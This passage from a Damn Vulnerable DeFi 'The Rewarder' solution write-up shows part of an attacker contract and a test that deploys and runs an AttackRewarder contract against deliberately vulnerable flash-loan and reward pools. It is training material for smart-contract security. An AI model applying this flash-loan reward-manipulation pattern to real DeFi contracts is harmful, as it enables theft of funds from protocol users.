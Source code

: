 ```solidity

      require(token.balanceOf(address(this)) == 0, "We haven't paid the loan back");


    }

    receive() external payable {}

}

```

`the-rewarder.challenge.js`:

```solidity

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]) // 5 days

        const attack = await (await ethers.getContractFactory('AttackRewarder', deployer)).deploy(
            this.flashLoanPool.address, 
            this.rewarderPool.address, 
            this.accountingToken.address, 
            this.rewardToken.address, 
            this.liquidityToken.address
        );
        
        await attack.connect(attacker).run(attacker.address);

    });

```

You can find the complete code [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/test/the-rewarder/the-rewarder.challenge.js) and [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/contracts/attacker-contracts/AttackRewarder.sol).

## 4) References

- [ERC20Snapshot](https://docs.openzeppelin.com/contracts/3.x/api/token/erc20#ERC20Snapshot)
- [ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)